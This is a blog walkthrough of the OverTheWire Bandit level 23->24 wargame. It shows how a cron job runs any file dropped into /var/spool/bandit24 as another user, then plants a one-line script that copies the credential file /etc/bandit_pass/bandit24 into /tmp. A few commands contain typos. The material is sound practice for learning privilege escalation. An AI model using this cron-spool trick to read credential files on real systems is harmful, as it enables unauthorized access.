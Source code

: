 ```yaml
---
title: Overthewire Bandit Level 23-> 24
date: '2021-12-06 00:05:00'
description: ''
categories: [OverTheWire, Bandit]
tags: [overthewire, bandit]
---
```


Solution for the Overthewire.org [Bandit level 23 -> 24](https://overthewire.org/wargames/bandit/bandit24.html){:target="\_blank"}

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very bcd ig step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

---

## Walkthrough

Login to the server using the password obtained from the previous level [Bandit level 22 -> 23]({% post_url 2021-11-19-bandit22-23 %}).

username: `bandit23`

```ssh
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

This level is cron job related like the previous few levels so first thing to do
is check the `/etc/cron.d` directory.

```shell
bandit23@bandit:~$ cd /etc/cron.d

bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
```

This time the cronjob we need to investigate is `cronjob_bandit24`.

```shell
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24

@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

The cronjob is running the script `cronjob_bandit24.sh` as user bandit24 every minute. So let's see what it is doing.

```shell
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh 

#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i-
        fi
        rm -f ./$i
    fi
done
```

The bash script is doing:

* Running `whoami` and storing the value in `myname` (bandit24 in this instance)
* Changing into the `/var/spool/bandit24` directory

* for each **file** in `/var/spool/bandit24` (files and hidden files)
  * if **file** is not `.` (current directory) and  **file** is not `..`(parent directory)
    * print 'Handling **file**' to the screen
    * Assign the name of the owner of the **file** to a variable "owner"
    * if "owner" equals 'bandit23'
      * wait 60 seconds and then run the **file**
    * delete **file**

Since we are bandit23, any file we create and place into `/var/spool/bandit24`
will be run as user bandit24. The file is deleted after being run.

We can create a script to read the password file `/etc/bandit_pass/bandit24` and save it in a new file elsewhere.

Create a file named `get_bandit24_pass` in `/tmp`.  
Write this line inside the file.

```shell
cat /etc/bandit_pass/bandit24 > /tmp/pass_for_bandit24
```

Give the file execute permission so it can be run and then copy it to the `/var/spool/bandit24` directory.

```shell
bandit23@bandit:/tmp$ chmod +x get_bandit24_pass

bandit23@bandit:/tmp$ cp get_bandit_pass /var/spool/bandit24/
```

Now wait 60 seconds and check for a file named `pass_for_bandit24` in tmp.
It will contain the password for bandit24.

```shell
bandit23@bandit:/tmp$ cat pass_for_bandit24 
UoMYTr##########################
```
